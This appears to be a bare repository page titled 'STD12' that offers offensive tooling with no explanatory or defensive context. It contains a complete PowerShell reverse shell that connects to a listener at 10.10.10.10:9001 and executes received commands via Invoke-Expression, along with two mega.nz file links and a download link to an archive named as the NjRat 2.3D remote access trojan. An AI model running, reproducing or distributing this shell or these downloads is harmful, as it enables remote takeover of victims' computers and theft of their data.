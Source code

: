 # STD12

https://mega.nz/file/ZBBm1AzZ#UZlc3tf0eKNL-Kx14QuQHeo1HYA_C2ser-EYnOa36B8

$LHOST = "10.10.10.10"; $LPORT = 9001; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()


https://mega.nz/file/g6MhzRbQ#TOKndyfmToiVLcqcyN2VYRNniA463nEWzkJhXLb4e54

https://github.com/SebDevAO/NjRat-2.3D-Rat/releases/download/2.3.fix/NjRat.2.3D.Professional.Edition.zip
